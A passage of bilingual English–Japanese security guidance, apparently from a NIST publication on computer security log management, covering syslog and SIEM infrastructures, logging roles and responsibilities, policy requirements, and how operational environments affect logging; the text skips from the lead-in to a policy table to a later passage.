Log management infrastructures, which are typically based on either syslog-based centralized logging software or security information and event management software, usually use a three-tiered design. The first tier encompasses the hosts that generate the original log data. The second tier includes centralized log servers, which perform consolidation and data storage. The third tier contains consoles that are used to monitor and review log data, and optionally may also be used to manage the log servers and clients. Communications between the tiers usually occur over the organization’s regular networks, but may be routed over a separate logging network instead. Organizations may also have log-generating hosts that cannot actively participate in the log management infrastructure, such as computers that are not network-connected, legacy systems, and appliance-based devices; administrators can either transfer data manually to the infrastructure from these hosts through removable media, or manage and analyze the data locally.
ログ管理インフラストラクチャは通常、syslogベースの集中ログ管理ソフトウェアまたはセキュリティ情報・イベント管理ソフトウェアに基づき、3層構成を採用する。第1層には元のログデータを生成するホストが含まれる。第2層にはログを集約して保存する集中ログサーバーが含まれる。第3層にはログデータの監視・確認に使用するコンソールが含まれ、必要に応じてログサーバーとクライアントの管理にも使用される場合がある（may）。各層間の通信は通常、組織の通常ネットワーク上で行われるが、代わりに分離されたロギングネットワーク経由でルーティングされる場合もある（may）。組織には、ネットワーク接続されていないコンピュータ、レガシーシステム、アプライアンス型機器など、ログ管理インフラストラクチャに能動的に参加できないログ生成ホストが存在する場合もある（may）。管理者は、リムーバブル媒体を介してそれらのホストからインフラストラクチャにデータを手動転送するか、ローカルでデータを管理・分析できる（can）。
In a syslog-based centralized logging infrastructure, each log generator uses the same standard log format and forwards its log entries to a centralized log server. Because syslog is a simple standard protocol, it can be used by many OSs, security software programs, and applications. The original syslog standard does not offer much granularity in handling different types of events. Also, because it has few data fields, it can be very difficult to extract the meaning of the data logged for each event when multiple log sources are generating events. Syslog was developed when log security was not a major concern; the original syslog standard offers no features for preserving the confidentiality, integrity, and availability of logs.
syslogベースの集中ログ管理インフラストラクチャでは、各ログ生成元が同じ標準ログ形式を使用し、ログエントリを集中ログサーバーに転送する。syslogは単純な標準プロトコルであるため、多くのOS、セキュリティソフトウェア、アプリケーションで使用できる（can）。元のsyslog標準は、異なる種類のイベントの処理に関して詳細な制御をあまり提供しない。また、データフィールドが少ないため、複数のログソースがイベントを生成している場合、各イベントについて記録されたデータの意味を抽出することが非常に難しい場合がある（can）。syslogはログのセキュリティが主要な懸念事項でなかった時代に開発されたため、元の標準にはログの機密性、完全性、可用性を維持する機能がない。
To improve the security of syslog deployments, a new proposed standard has been created that offers stronger security capabilities, and various syslog implementations have added features such as reliable log delivery; transmission encryption, integrity protection, and authentication; robust filtering; automated event responses; log file encryption; and event rate limiting. Organizations using syslog should consider using secure syslog implementations, paying particular attention to interoperability because many syslog clients and servers offer features not specified in current standards.
syslogの導入環境のセキュリティを高めるため、より強力なセキュリティ機能を備える新しい標準案が作成された。また、さまざまなsyslog実装に、信頼性の高いログ配信、転送の暗号化、完全性保護と認証、堅牢なフィルタリング、自動イベント対応、ログファイル暗号化、イベントレート制限などの機能が追加された。syslogを使用する組織は、安全なsyslog実装の使用を検討すべきである（should）。多くのsyslogクライアントとサーバーは現行標準に規定されていない機能を提供するため、相互運用性に特に注意する。
Unlike syslog-based infrastructures, which are based on a single standard, security information and event management (SIEM) software primarily uses proprietary data formats. SIEM products have centralized servers that perform log analysis and database servers for log storage. Most SIEM products require agents to be installed on each log generating host; the agents perform filtering, aggregation, and normalization for a particular type of log. The agents are also responsible for transferring log data from the individual hosts to a centralized SIEM server on a real-time or near-real-time basis. Other SIEM products are agentless and rely on an SIEM server to pull data from the logging hosts and perform the functions that agents normally perform.
単一標準に基づくsyslogベースのインフラストラクチャとは異なり、セキュリティ情報・イベント管理（SIEM）ソフトウェアは主として独自データ形式を使用する。SIEM製品には、ログ分析を行う集中サーバーとログ保存用のデータベースサーバーがある。ほとんどのSIEM製品では、各ログ生成ホストにエージェントをインストールする必要がある。エージェントは特定種類のログに対してフィルタリング、集約、正規化を実施する。また、エージェントは個々のホストから集中SIEMサーバーへ、リアルタイムまたは準リアルタイムでログデータを転送する役割も担う。他のSIEM製品はエージェントレスであり、SIEMサーバーがロギングホストからデータを取得し、通常エージェントが実行する機能を担う。
SIEM products usually support several dozen types of log sources, including generic formats such as syslog. Because the SIEM products typically understand the meaning of each logged field for specific log source formats, an SIEM-based log management infrastructure is usually superior to a syslog-based infrastructure in performing normalization, analysis, and correlation of log data from multiple log sources. SIEM products can analyze data from many sources, identify significant events, and initiate automated responses if desired. SIEM products may also include analysis GUIs, security knowledge bases, incident tracking and reporting capabilities, and asset information storage and correlation capabilities. SIEM products also usually offer capabilities to protect the confidentiality, integrity, and availability of log data.
SIEM製品は通常、syslogなどの汎用形式を含む数十種類のログソースに対応する。SIEM製品は特定ログソース形式の各ログフィールドの意味を通常理解しているため、SIEMベースのログ管理インフラストラクチャは、複数ログソースからのログデータの正規化、分析、相関を行う際、通常syslogベースのインフラストラクチャより優れている。SIEM製品は多くのソースのデータを分析し、重要イベントを特定し、必要に応じて自動応答を開始できる（can）。SIEM製品には、分析用GUI、セキュリティナレッジベース、インシデント追跡・報告機能、資産情報の保存・相関機能が含まれる場合もある（may）。SIEM製品は通常、ログデータの機密性、完全性、可用性を保護する機能も提供する。
Although SIEM software typically offers more robust and broad log management capabilities than syslog, SIEM software is usually much more complicated and expensive to deploy than a centralized syslog implementation. Also, SIEM software is often more resource-intensive for individual hosts than syslog because of the processing that agents perform.
SIEMソフトウェアは通常、syslogより堅牢で幅広いログ管理機能を提供するが、集中syslog実装より展開がはるかに複雑で高価である。また、エージェントが処理を実行するため、SIEMソフトウェアは個々のホストに対するリソース負荷がsyslogより大きいことが多い。
In addition to syslog and SIEM software, there are several other types of software that may be helpful for log management. Host-based intrusion detection systems (IDS) monitor the characteristics of a host and the events occurring within it, which might include OS, security software, and application logs. Host-based IDS products are often part of a log management infrastructure, but they cannot take the place of syslog and SIEM software. Other utilities that are helpful for log management include visualization tools, log rotation utilities, and log conversion utilities.
syslogおよびSIEMソフトウェアに加えて、ログ管理に役立つその他の種類のソフトウェアがいくつかある（may）。ホストベース侵入検知システム（IDS）は、ホストの特性とそのホスト内で発生するイベントを監視し、これにはOS、セキュリティソフトウェア、アプリケーションログが含まれる場合がある（might）。ホストベースIDS製品はログ管理インフラストラクチャの一部であることが多いが、syslogおよびSIEMソフトウェアの代わりにはならない。ログ管理に有用なその他のユーティリティには、可視化ツール、ログローテーションユーティリティ、ログ変換ユーティリティがある。
4. Log Management Planning
4. ログ管理の計画
To establish and maintain successful log management infrastructures, an organization should perform significant planning and other preparatory actions for performing log management. This is important for creating consistent, reliable, and efficient log management practices that meet the organization’s needs and requirements and also provide additional value for the organization. This section describes the definition of log management roles and responsibilities, the creation of feasible logging policies, and the design of log management infrastructures. Section 5 describes the operational aspects of log management.
ログ管理インフラストラクチャを成功裏に確立・維持するため、組織はログ管理を実施するための相当な計画やその他の準備作業を行うべきである（should）。これは、組織のニーズと要件を満たし、組織にさらなる価値をもたらす、一貫性・信頼性・効率性のあるログ管理実践を作成するうえで重要である。本節では、ログ管理の役割と責任の定義、実行可能なロギングポリシーの作成、ログ管理インフラストラクチャの設計について説明する。第5節ではログ管理の運用面を説明する。
4.1 Define Roles and Responsibilities
4.1 役割と責任の定義
As part of the log management planning process, an organization should define the roles and responsibilities of individuals and teams who are expected to be involved in log management. Teams and individual roles often involved in log management include the following:
ログ管理の計画プロセスの一環として、組織はログ管理に関与することが見込まれる個人およびチームの役割と責任を定義すべきである（should）。ログ管理に関与することが多いチームおよび個人の役割には、以下が含まれる。
•System and network administrators, who are usually responsible for configuring logging on individual systems and network devices, analyzing those logs periodically, reporting on the results of log management activities, and performing regular maintenance of the logs and logging software
•システム管理者およびネットワーク管理者。通常、個々のシステムとネットワーク機器のロギング構成、ログの定期分析、ログ管理活動結果の報告、ログおよびロギングソフトウェアの定期保守に責任を負う。
•Security administrators, who are usually responsible for managing and monitoring the log management infrastructures, configuring logging on security devices (e.g., firewalls, network-based intrusion detection systems, antivirus servers), reporting on the results of log management activities, and assisting others with configuring logging and performing log analysis38
•セキュリティ管理者。通常、ログ管理インフラストラクチャの管理と監視、セキュリティ機器（ファイアウォール、ネットワークベース侵入検知システム、ウイルス対策サーバーなど）のロギング構成、ログ管理活動結果の報告、他者によるロギング構成とログ分析の支援に責任を負う。38
•Computer security incident response teams, who use log data when handling some incidents
•コンピュータセキュリティインシデント対応チーム。いくつかのインシデント対応時にログデータを使用する。
•Application developers, who may need to design or customize applications so that they perform logging in accordance with the logging requirements and recommendations
•アプリケーション開発者。ロギング要件および推奨事項に従ってアプリケーションがロギングを実行するよう、設計またはカスタマイズする必要がある場合がある（may）。
•Information security officers, who may oversee the log management infrastructures
•情報セキュリティ担当者。ログ管理インフラストラクチャを監督する場合がある（may）。
•Chief information officers (CIO), who oversee the IT resources that generate, transmit, and store the logs
•最高情報責任者（CIO）。ログを生成、転送、保存するITリソースを監督する。
•Auditors, who may use log data when performing audits
•監査人。監査を実施する際にログデータを使用する場合がある（may）。
•Individuals involved in the procurement of software that should or can generate computer security log data.
•コンピュータセキュリティログデータを生成すべき（should）または生成できる（can）ソフトウェアの調達に関与する個人。
Organizations need to give particular consideration to the assignment of operational log management duties. Some organizations, especially those with highly managed environments, may choose to perform all log management centrally instead of at the individual system level. However, in most organizations, log management is not so centralized. Typically, system, network, and security administrators are responsible for managing logging on their systems, performing regular analysis of their log data, documenting and reporting the results of their log management activities, and ensuring that log data is provided to the log management infrastructure in accordance with the organization’s policies.
組織は、運用上のログ管理業務の割り当てについて特に検討する必要がある。組織によっては、特に高度に管理された環境では、個々のシステムレベルではなく、すべてのログ管理を一元的に実施することを選択する場合がある（may）。ただし、ほとんどの組織ではログ管理はそれほど一元化されていない。通常、システム、ネットワーク、セキュリティの管理者は、自身のシステムのロギング管理、ログデータの定期分析、ログ管理活動結果の文書化と報告、組織のポリシーに従ったログデータのログ管理インフラストラクチャへの提供確保に責任を負う。
Additionally, some of the organization’s security administrators act as log management infrastructure administrators, with responsibilities such as the following:
さらに、組織のセキュリティ管理者の一部は、ログ管理インフラストラクチャの管理者として、次のような責任を担う。
•Contacting system-level administrators to get additional information regarding an event or to request that they investigate a particular event
•イベントに関する追加情報を得るため、または特定イベントの調査を依頼するために、システムレベルの管理者に連絡する
•Identifying changes needed to system logging configurations (e.g., which entries and data fields are sent to the centralized log servers, what log format should be used) and informing system-level administrators of the necessary changes
•システムのロギング構成に必要な変更（集中ログサーバーに送信するエントリやデータフィールド、使用すべき（should）ログ形式など）を特定し、必要な変更をシステムレベルの管理者に伝える
•Initiating responses to events, including incident handling and operational problems (e.g., a failure of a log management infrastructure component)
•インシデント対応や運用上の問題（ログ管理インフラストラクチャ構成要素の障害など）を含む、イベントへの対応を開始する
•Ensuring that old log data is archived to removable media and disposed of properly once it is no longer needed39
•古いログデータがリムーバブル媒体にアーカイブされ、不要になった時点で適切に廃棄されるようにする39
•Cooperating with requests from legal counsel, auditors, and others
•法律顧問、監査人などからの依頼に協力する
•Monitoring the status of the log management infrastructure (e.g., failures in logging software or log archival media, failures of local systems to transfer their log data) and initiating appropriate responses when problems occur
•ログ管理インフラストラクチャの状態（ロギングソフトウェアまたはログアーカイブ媒体の障害、ローカルシステムがログデータを転送できない状態など）を監視し、問題発生時に適切な対応を開始する
•Testing and implementing upgrades and updates to the log management infrastructure’s components
•ログ管理インフラストラクチャの構成要素に対するアップグレードおよび更新を試験・実装する
•Maintaining the security of the log management infrastructure.
•ログ管理インフラストラクチャのセキュリティを維持する。
Another key responsibility of many log management infrastructure administrators is verifying the work of system-level administrators. When deciding how to divide log management duties, organizations might want to consider separation of duties and accountability. For example, having someone other than a system administrator review the logs for a particular system helps to provide accountability for the system administrator’s actions, including confirming that logging is enabled. Separation of duties considerations can have a significant impact on an organization’s logging policies, the resources necessary to support logging, and the design of log management infrastructures, should there be a desire to have large volumes of log data forwarded to log servers for independent reviews.
多くのログ管理インフラストラクチャ管理者のもう一つの重要な責任は、システムレベル管理者の作業を検証することである。ログ管理業務の分担を決める際、組織は職務分離と説明責任を検討したい場合がある（might）。たとえば、システム管理者以外の者が特定システムのログを確認すれば、ロギングが有効になっていることの確認を含め、システム管理者の行動に対する説明責任を確保する助けとなる。大量のログデータを独立した確認のためにログサーバーへ転送したい場合には、職務分離に関する考慮事項が、組織のロギングポリシー、ロギングを支援するために必要なリソース、ログ管理インフラストラクチャの設計に大きな影響を及ぼす可能性がある（can）。
Organizations need to determine how much analysis should be done by system-level administrators and how much by the log management infrastructure administrators. Generally, at least some analysis should be performed at the system level because the system’s administrators can often provide context for events recorded in the log data. For example, if a log shows that a system rebooted three times in an hour, an infrastructure administrator might not be able to determine why that occurred from reviewing other log entries, but a local administrator would know that the system was being patched at that time and that the reboots were intentional. Another reason for performing system-level analysis is that local administrators might have different interests than infrastructure administrators, such as identifying operational problems and other non-security concerns. Also, there are often far too many events for infrastructure administrators to review them all, and too much data to transfer across networks to the log management infrastructure. Performing analysis at the system level is also helpful to administrators in gaining a better understanding of each system’s characteristics so that they can fine-tune logging configurations.
組織は、システムレベル管理者とログ管理インフラストラクチャ管理者のどちらがどの程度の分析を行うべきか（should）を決める必要がある。一般に、ログデータに記録されたイベントの背景情報をシステム管理者がしばしば提供できる（can）ため、少なくとも一部の分析はシステムレベルで実施すべきである（should）。たとえば、ログに1時間でシステムが3回再起動したと記録されている場合、インフラストラクチャ管理者は他のログエントリを調べても理由を判断できない場合がある（might）が、ローカル管理者ならその時点でシステムにパッチを適用しており、再起動が意図的だったと分かる（would）。システムレベル分析を行うもう一つの理由は、ローカル管理者は運用上の問題やその他の非セキュリティ上の懸念事項を特定するなど、インフラストラクチャ管理者とは異なる関心を持つ場合がある（might）ことである。また、インフラストラクチャ管理者がすべてを確認するにはイベントが多すぎることが多く、ログ管理インフラストラクチャへネットワーク経由で転送するデータも多すぎる。システムレベルで分析を実施すると、管理者が各システムの特性をより深く理解し、ロギング構成を微調整できる（can）点でも有用である。
Performing some analysis at the infrastructure level is particularly helpful in a few ways. It is much more likely to be performed in near-real-time than system-level analysis; this supports more rapid responses to serious security events and helps to minimize the impact of security incidents. Typically, the log data most likely to record important events should be analyzed on an ongoing basis, consistent with the monitoring of other key centralized security controls such as network intrusion detection systems, antivirus software, and network firewalls.40 Also, analysis at the infrastructure level can find patterns of events across multiple systems, such as coordinated or widespread attacks (e.g., malware, distributed denial of service), and attacks that go between the organization’s systems. Another reason, as mentioned earlier, is the separation of duties between system-level administrators and infrastructure administrators.
インフラストラクチャレベルで一部の分析を行うことは、いくつかの点で特に有用である。システムレベルの分析より準リアルタイムで実施される可能性がはるかに高く、これにより重大なセキュリティイベントへの迅速な対応が可能になり、セキュリティインシデントの影響を最小限に抑えられる。重要イベントを記録する可能性が最も高いログデータは、ネットワーク侵入検知システム、ウイルス対策ソフトウェア、ネットワークファイアウォールなど、他の主要な集中型セキュリティ管理策の監視と整合するよう、継続的に分析すべきである（should）。また、インフラストラクチャレベルの分析では、協調的または広範囲な攻撃（マルウェア、分散型サービス拒否など）や、組織のシステム間を移動する攻撃など、複数システムにまたがるイベントのパターンを検出できる（can）。先に述べたように、システムレベル管理者とインフラストラクチャ管理者の間の職務分離も理由の一つである。
In general, when determining how to divide analysis responsibilities, organizations should focus on the relative importance of different types of entries and the context necessary to understand each log entry’s true meaning. Organizations should think carefully about possible sources of context, such as change management information, that infrastructure administrators might be able to use. For entry types that generally do not require context, organizations should consider automating and centralizing the analysis as much as possible. For entry types that do require context, organizations should either rely on system-level administrators or ensure that the necessary context is available to infrastructure administrators through supporting log entries, change management program data, or other sources.
分析責任の分担を決定する際、一般に組織は、さまざまな種類のエントリの相対的重要性と、各ログエントリの真の意味を理解するために必要な背景情報に焦点を当てるべきである（should）。組織は、インフラストラクチャ管理者が利用できる可能性のある（might）変更管理情報など、背景情報の潜在的な情報源を慎重に検討すべきである（should）。一般に背景情報を必要としないエントリ種別について、組織は可能な限り分析を自動化し、一元化することを検討すべきである（should）。背景情報を必要とするエントリ種別については、組織はシステムレベル管理者に任せるか、関連ログエントリ、変更管理プログラムデータ、その他の情報源を通じて、必要な背景情報をインフラストラクチャ管理者が利用できるようにすべきである（should）。
To ensure that log management at the system level is performed effectively throughout the organization, the administrators of those systems need to receive adequate support from the organization. Assuming that the system-level administrators have typical responsibilities, an organization’s support for them should encompass the following actions:
組織全体でシステムレベルのログ管理を効果的に実施するため、システム管理者は組織から十分な支援を受ける必要がある。システムレベル管理者が一般的な責任を担うものとすると、組織による支援には次の措置を含めるべきである（should）。
•Disseminating information and providing training on the roles that individual systems and their administrators play in the log management infrastructure
•個々のシステムとその管理者がログ管理インフラストラクチャで果たす役割に関する情報を周知し、研修を提供する
•Providing points of contact who can answer administrators’ questions on logging
•ロギングに関する管理者の質問に回答できる（can）連絡窓口を設ける
•Encouraging administrators to submit their lessons learned, and providing a mechanism to disseminate their ideas (e.g., mailing list, internal Web forum, workshop)
•管理者に教訓の提出を促し、そのアイデアを周知する仕組み（メーリングリスト、内部Webフォーラム、ワークショップなど）を提供する
•Providing specific technical guidance on integrating system log data with the log management infrastructure, such as implementing SIEM agents or establishing local syslog implementations
•システムログデータをログ管理インフラストラクチャに統合するための具体的な技術ガイダンス（SIEMエージェントの実装やローカルsyslog実装の確立など）を提供する
•Considering establishing a test environment for logging. The organization could test various configurations for common logging sources, document recommendations and instructions, and disseminate them to administrators for their use. This information should help them configure their logging more effectively and consistently, and also save them time.
•ロギング用の試験環境の構築を検討する。組織は、一般的なロギングソースについてさまざまな構成を試験し、推奨事項と手順を文書化して、管理者が利用できるよう周知できる（could）。この情報は、管理者がロギングをより効果的かつ一貫して構成し、時間を節約するのに役立つはずである（should）。
•Making tools such as log rotation scripts and log analysis software available to administrators, along with documentation. Organizations should consider implementing these in a test environment and documenting recommendations and instructions for using them.
•ログローテーションスクリプトやログ分析ソフトウェアなどのツールと文書を管理者に提供する。組織は、これらを試験環境で実装し、使用に関する推奨事項と手順を文書化することを検討すべきである（should）。
Organizations should also provide similar support for infrastructure administrators, with an emphasis on training and tools.
組織は、研修とツールに重点を置き、インフラストラクチャ管理者にも同様の支援を提供すべきである（should）。
4.2 Establish Logging Policies
4.2 ロギングポリシーの確立
An organization should define its requirements and goals for performing logging and monitoring logs, as described in Section 2.2. The requirements should include all applicable laws, regulations, and existing organizational policies, such as data retention policies. The goals should be based on balancing the organization’s reduction of risk with the time and resources needed to perform log management functions. The requirements and goals should then be used as the basis for establishing an organization-wide log management capability and prioritizing log management appropriately throughout the enterprise.
組織は、2.2節で説明したように、ロギングの実施とログ監視に関する要件および目標を定義すべきである（should）。要件には、データ保持ポリシーなど、適用されるすべての法律、規制、既存の組織ポリシーを含めるべきである（should）。目標は、リスク低減とログ管理機能の実施に必要な時間およびリソースとの均衡に基づくべきである（should）。次に、要件と目標を基礎として、組織全体のログ管理能力を確立し、企業全体でログ管理の優先順位を適切に設定すべきである（should）。
Organizations should develop policies that clearly define mandatory requirements and suggested recommendations for several aspects of log management, including the following:41
組織は、ログ管理のいくつかの側面について、必須要件と推奨事項を明確に定義するポリシーを策定すべきである（should）。具体例を以下に示す。41
•Log generation
•ログ生成
•Which types of hosts must or should perform logging
•ロギングを実施しなければならない（must）または実施すべきである（should）ホストの種類
•Which host components must or should perform logging (e.g., OS, service, application)
•ロギングを実施しなければならない（must）または実施すべきである（should）ホストの構成要素（OS、サービス、アプリケーションなど）
•Which types of events each component must or should log (e.g., security events, network connections, authentication attempts)
•ログを記録しなければならない（must）または記録すべきである（should）各構成要素のイベント種別（セキュリティイベント、ネットワーク接続、認証試行など）
•Which data characteristics must or should be logged for each type of event (e.g., username and source IP address for authentication attempts)
•各イベント種別について記録しなければならない（must）または記録すべきである（should）データ特性（認証試行のユーザー名や送信元IPアドレスなど）
•How frequently each type of event must or should be logged (e.g., every occurrence, once for all instances in x minutes, once for every x instances, every instance after x instances)42
•各イベント種別を記録しなければならない（must）または記録すべきである（should）頻度（発生ごと、x分間の全発生について1回、x回ごとに1回、x回を超えた後は毎回など）42
•Log transmission
•ログ転送
•Which types of hosts must or should transfer logs to a log management infrastructure
•ログをログ管理インフラストラクチャに転送しなければならない（must）または転送すべきである（should）ホストの種類
•Which types of entries and data characteristics must or should be transferred from individual hosts to a log management infrastructure
•個々のホストからログ管理インフラストラクチャに転送しなければならない（must）または転送すべきである（should）エントリの種類およびデータ特性
•How log data must or should be transferred (e.g., which protocols are permissible), including out-of-band methods where appropriate (e.g., for standalone systems)
•ログデータを転送しなければならない（must）または転送すべきである（should）方法（使用可能なプロトコルなど）。適切な場合は帯域外方式（スタンドアロンシステムなど）も含む。
•How frequently log data should be transferred from individual hosts to a log management infrastructure (e.g., real-time, every 5 minutes, every hour)
•個々のホストからログ管理インフラストラクチャへログデータを転送すべき頻度（should）（リアルタイム、5分ごと、1時間ごとなど）
•How the confidentiality, integrity, and availability of each type of log data must or should be protected while in transit, including whether a separate logging network should be used
•転送中の各種ログデータの機密性、完全性、可用性を保護しなければならない（must）または保護すべきである（should）方法。分離ロギングネットワークを使用すべきかどうか（should）も含む。
•Log storage and disposal43
•ログの保存および廃棄43
•How often logs should be rotated
•ログをローテーションすべき頻度（should）
•How the confidentiality, integrity, and availability44 of each type of log data must or should be protected while in storage (at both the system level and the infrastructure level) 45
•保存中に各種ログデータの機密性、完全性、可用性44をどのように保護しなければならないか（must）または保護すべきか（should）（システムレベルとインフラストラクチャレベルの両方）45
•How long each type of log data must or should be preserved (at both the system level and the infrastructure level)46
•各種ログデータをシステムレベルおよびインフラストラクチャレベルでどのくらいの期間保存しなければならないか（must）または保存すべきか（should）46
•How unneeded log data must or should be disposed of (at both the system level and the infrastructure level)
•不要になったログデータをシステムレベルおよびインフラストラクチャレベルでどのように廃棄しなければならないか（must）または廃棄すべきか（should）
•How much log storage space must or should be available (at both the system level and the infrastructure level)
•システムレベルおよびインフラストラクチャレベルで、どの程度のログ保存容量を利用可能にしなければならないか（must）または利用可能にすべきか（should）
•How log preservation requests, such as a legal requirement to prevent the alteration and destruction of particular log records, must be handled (e.g., how the impacted logs must be marked, stored, and protected)
•特定ログ記録の改変および破壊を防止する法的要件など、ログ保全要求をどのように処理しなければならないか（must）（影響を受けるログをどのように明示し、保存し、保護しなければならないか（must）など）
•Log analysis
•ログ分析
•How often each type of log data must or should be analyzed (at both the system level and the infrastructure level)
•各種ログデータをシステムレベルおよびインフラストラクチャレベルでどの頻度で分析しなければならないか（must）または分析すべきか（should）
•Who must or should be able to access the log data (at both the system level and the infrastructure level), and how such accesses should be logged
•システムレベルおよびインフラストラクチャレベルで、誰がログデータにアクセスできなければならないか（must）またはアクセスできるべきか（should）、また、そのようなアクセスをどのように記録すべきか（should）
•What must or should be done when suspicious activity or an anomaly is identified47
•不審な活動または異常が識別された場合に何を実施しなければならないか（must）または実施すべきか（should）47
•How the confidentiality, integrity, and availability of the results of log analysis (e.g., alerts, reports) must or should be protected while in storage (at both the system level and the infrastructure level) and in transit
•保存中（システムレベルとインフラストラクチャレベルの両方）および転送中に、ログ分析結果（アラート、レポートなど）の機密性、完全性、可用性をどのように保護しなければならないか（must）または保護すべきか（should）
•How inadvertent disclosures of sensitive information recorded in logs, such as passwords or the contents of e-mails, should be handled.
•ログに記録されたパスワードや電子メール内容などの機密情報を誤って開示した場合、どのように対処すべきか（should）。
An organization’s policies should also address who within an organization can establish and manage log management infrastructures.
組織のポリシーでは、組織内の誰がログ管理インフラストラクチャを確立・管理できるか（can）も扱うべきである（should）。
Organizations should also ensure that other policies, guidelines, and procedures that have some relationship to logging incorporate and support these log management requirements and recommendations, and also comply with functional and operational requirements. An example is ensuring that software procurement and custom application development activities take log management requirements into consideration.
組織は、ロギングと何らかの関係を持つ他のポリシー、ガイドライン、手順にもログ管理要件と推奨事項が組み込まれ、これらを支援し、機能・運用要件にも準拠するよう確保すべきである（should）。たとえば、ソフトウェア調達やカスタムアプリケーション開発の活動でログ管理要件が考慮されるよう確保することが挙げられる。
Table 4-1 provides examples of the types of logging configuration settings to be specified in policies. Organizations should not adopt these values as-is, but instead use them as a starting point for determining
表4-1に、ポリシーで指定するロギング構成設定の種類の例を示す。組織はこれらの値をそのまま採用すべきではなく（should not）、代わりに、これらを決定するための
analysis of the log data nearly impossible. Also, the volume of log data being recorded by any source tends to be very dynamic, changing frequently in the short term, and also changing overall in the long term. Logging settings that are reasonable at one time might be infeasible at another, particularly during adverse circumstances.
ログデータの分析をほぼ不可能にする。さらに、いずれのソースが記録するログデータ量も非常に動的であり、短期的にも頻繁に、長期的にも全体として変化する。ある時点では妥当なロギング設定でも、別の時点では実行不可能になる場合がある（might）。特に有害な状況下で顕著である。
Recording more data is not necessarily better; generally, organizations should only require logging and analyzing the data that is of greatest importance, and also have non-mandatory recommendations for which other types and sources of data should be logged and analyzed if time and resources permit. Some organizations choose to have all or nearly all log data generated and stored for at least a short period of time in case it is needed; this approach favors security considerations over usability and resource usage. When establishing requirements and recommendations, organizations should be flexible since each host is different and will log different amounts of data than other hosts. Flexibility is also important because the logging behavior of a host may change rapidly due to an upgrade, patch, or configuration change. Organizations should also permit administrators to reconfigure logging temporarily during adverse system or network conditions, such as unsuccessful malware attacks that cause the same type of log entry to be generated many times. These configuration changes should be performed as a last resort and should be as precise as possible. System-level administrators should inform the infrastructure administrators of such configuration changes to ensure that log monitoring and analysis processes are modified if needed.
より多くのデータを記録すれば必ずよいとは限らない。一般に、組織は最も重要なデータのみをロギング・分析の必須対象とすべきである（should）。また、時間とリソースが許す場合に記録・分析すべき他の種類やソースのデータについて、任意の推奨事項も設けるべきである（should）。一部の組織は、必要に備えて、すべてまたはほぼすべてのログデータを生成し、少なくとも短期間保存することを選択する。この方法は、使いやすさやリソース使用量よりセキュリティ上の考慮を優先する。要件と推奨事項を設定する際、各ホストは異なり、他のホストとは異なる量のデータを記録する（will）ため、組織は柔軟であるべきである（should）。ホストのロギング動作は、アップグレード、パッチ、構成変更によって急速に変化する場合もある（may）ため、柔軟性は重要である。組織は、マルウェア攻撃の失敗など、同じ種類のログエントリが何度も生成されるようなシステムまたはネットワークの有害な状況の際に、管理者がロギングを一時的に再構成することも許可すべきである（should）。こうした構成変更は最終手段として実施すべきである（should）。また、可能な限り正確に行うべきである（should）。システムレベル管理者は、このような構成変更をインフラストラクチャ管理者に知らせ、必要に応じてログ監視・分析プロセスを変更できるようにすべきである（should）。
Organizations should also consider the environments in which systems reside when developing policy. NIST SP 800-70, Security Configuration Checklists Program for IT Products—Guidance for Checklists Users and Developers, identifies several common operational environments.51 The following describes four of these environments and explains how the characteristics of each environment might impact logging policy. Organizations might consider having separate logging policy provisions for systems in each environment.
組織はポリシーを策定する際、システムが配置される環境も考慮すべきである（should）。NIST SP 800-70『Security Configuration Checklists Program for IT Products—Guidance for Checklists Users and Developers』は、一般的な運用環境をいくつか特定している。51 以下では、そのうち4つの環境について説明し、各環境の特性がロギングポリシーに及ぼす可能性のある（might）影響を説明する。組織は各環境のシステムに対して、個別のロギングポリシー規定を設けることを検討する場合がある（might）。
•Small Office/Home Office (SOHO) describes small, informal computer installations that are used for home or business purposes. SOHO encompasses a variety of small-scale environments and devices, ranging from laptops, mobile devices, or home computers, to telecommuting systems, to small businesses and small branch offices of a company. Many SOHO systems have intermittent, low-bandwidth connections to organizations’ primary networks, which could significantly impact use of and integration with a log management infrastructure. It might be necessary to design a log management infrastructure so as to minimize the transmission of data from SOHO systems to the infrastructure.
•小規模オフィス／ホームオフィス（SOHO）は、家庭用または業務用の小規模で非公式なコンピュータ設置環境を指す。SOHOには、ノートPC、モバイル機器、家庭用コンピュータから、テレワークシステム、企業の小規模事業所や支店に至るまで、さまざまな小規模環境と機器が含まれる。多くのSOHOシステムは組織の主要ネットワークに断続的かつ低帯域幅で接続するため、ログ管理インフラストラクチャの利用および統合に大きな影響を与える可能性がある（could）。SOHOシステムからインフラストラクチャへのデータ転送を最小限に抑えるよう、ログ管理インフラストラクチャを設計する必要がある場合がある（might）。
•Enterprise environments typically consist of large organizational systems with defined, organized suites of hardware and software configurations, usually consisting of centrally-managed workstations and servers protected from the Internet by firewalls and other network security devices. Of all the environments, the Enterprise environment is typically the easiest in which to perform log management.
•エンタープライズ環境は通常、明確に定義され整理されたハードウェアおよびソフトウェア構成を備える大規模な組織システムで構成される。通常、集中管理されたワークステーションとサーバーからなり、ファイアウォールやその他のネットワークセキュリティ機器によってインターネットから保護されている。すべての環境の中で、エンタープライズ環境は通常ログ管理を最も容易に実施できる。
•Custom environments contain systems in which the functionality and degree of system do not fit the other environments. Two typical Custom environments are Specialized Security-Limited Functionality and Legacy:
•カスタム環境には、機能性とシステムの程度が他の環境に適合しないシステムが含まれる。代表的なカスタム環境は、特殊なセキュリティ制約・限定機能環境とレガシー環境の2つである。
•Specialized Security-Limited Functionality environments contain systems and networks at high risk of attack or data exposure, with security taking precedence over functionality. They assume that systems have limited or specialized functionality (not general purpose workstations or systems) in a highly threatened environment, such as an outward-facing firewall or public Web server, or whose data content or mission purpose is of such value that aggressive trade-offs in favor of security outweigh the potential negative consequences to other useful system attributes such as interoperability with other systems. Some Specialized Security-Limited Functionality systems might have a limited ability to participate in a log management infrastructure because of the potential security risks of doing so (e.g., running additional network services, transmitting unprotected sensitive information over networks). It might be necessary to design a log management infrastructure so that these systems have all log management performed locally or that their logs are transferred to the infrastructure through out-of-band means such as removable media.
